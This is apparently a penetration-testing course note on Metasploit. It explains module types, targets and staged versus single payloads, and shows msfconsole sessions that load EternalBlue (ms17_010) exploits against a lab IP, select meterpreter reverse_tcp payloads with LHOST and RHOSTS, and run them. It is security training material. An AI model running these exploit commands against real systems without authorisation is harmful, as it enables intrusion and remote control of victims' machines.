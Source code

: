 # Modules, targets

{% hint style="danger" %}
It is important to note that payloads and exploits HIGHLY depends on the target's environment, architecture. Etc since it is based on the return addresses of the functions and registers so at times we will be crafting our own.
{% endhint %}

### Modules

```bash
<No.> <type>/<os>/<service>/<name>
794   exploit/windows/ftp/scriptftp_list
```

* Type:
  * Auxiliary: Scanning, fuzzing...etc
  * Encoders: Encoding the payloads.
  * Exploits:
  * NOPs: No Operation Code, padding for the payload.
  * Payloads:
  * Plugins:
  * Post: Post exploitation; pivoting deeper...etc

### Navigating in msfconsole modules

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_psexec) > options
msf6 exploit(windows/smb/ms17_010_psexec) > info
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40 # Kepp it the same for all the next work.
msf6 exploit(windows/smb/ms17_010_psexec) > run
```

## Targets

Simply the targets available for a specific selected exploit. Potentially victims.

```bash
msf6 > show targets
[-] No exploit module selected.
msf6 exploit(windows/smb/ms17_010_psexec) > show targets
msf6 exploit(windows/browser/ie_execcommand_uaf) > set target 6
```

## Payloads

The code that gets executed to exploit a certain vulnerability. The exists three types of payloads in metasploit:

* Singles: <mark style="color:purple;">windows/shell\_bind\_tcp</mark>, it contains the entire shellcode for the selected task, so they're more stable than the staged ones since they are AIO which makes them heavier than other types of payloads.
* Stagers: windows/shell/<mark style="color:purple;">bind\_tcp</mark>, These work alongside stages, they are waiting on the attacker's machine to establish a connection to the victim host once the stage completes its task on the target. Small in size.
  * Faces a huge issue when dealing with NX bits and DEP measures.
  * Stagers that are NX-aware are bigger in size.&#x20;
* Stages: windows/<mark style="color:purple;">shell</mark>/bind\_tcp, payload components that are loaded by the loader.

### Staged Payloads

As mentioned earlier, they're an exploitation process that is decomposed and modularized to help in the segmentation of the exploitation in action to be less detectable and picked by AV or IPS. If all the stages work with no issues, the attacker will gain his beloved remote access.

The <mark style="color:red;">**meterpreter payload**</mark> for example uses DLL injection in order to ensure a communication with the target. Once we successfully infect the target, we see a meterpreter interface that looks like the msfconsole except that the commands that we will be executing are aimed at the target.

### Searching, Selecting and using payloads

```bash

msf6 > select <exploit>

# Help of grep in identifying the desired payload:
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter show payloads 
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads
...

# Setting the payload:
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload <Number Of Payload>
...

# After setting a payload we'll have to setup the options
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig
...
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > set LHOST <our-ip>
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS <target-ip>
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
...
meterpreter > help
...

```

| <mark style="color:yellow;">**Payload**</mark> | <mark style="color:yellow;">Description</mark>                         |
| ---------------------------------------------- | ---------------------------------------------------------------------- |
| `generic/custom`                               | Generic listener, multi-use                                            |
| `generic/shell_bind_tcp`                       | Generic listener, multi-use, normal shell, TCP connection binding      |
| `generic/shell_reverse_tcp`                    | Generic listener, multi-use, normal shell, reverse TCP connection      |
| `windows/x64/exec`                             | Executes an arbitrary command (Windows x64)                            |
| `windows/x64/loadlibrary`                      | Loads an arbitrary x64 library path                                    |
| `windows/x64/messagebox`                       | Spawns a dialog via MessageBox using a customizable title, text & icon |
| `windows/x64/shell_reverse_tcp`                | Normal shell, single payload, reverse TCP connection                   |
| `windows/x64/shell/reverse_tcp`                | Normal shell, stager + stage, reverse TCP connection                   |
| `windows/x64/shell/bind_ipv6_tcp`              | Normal shell, stager + stage, IPv6 Bind TCP stager                     |
| `windows/x64/meterpreter/$`                    | Meterpreter payload + varieties above                                  |
| `windows/x64/powershell/$`                     | Interactive PowerShell sessions + varieties above                      |
| `windows/x64/vncinject/$`                      | VNC Server (Reflective Injection) + varieties above                    |

> Other critical payloads that are heavily used by penetration testers during security assessments are Empire and Cobalt Strike payloads. These are not in the scope of this course, but feel free to research them in our free time as they can provide a significant amount of insight into how professional penetration testers perform their assessments on high-value targets.

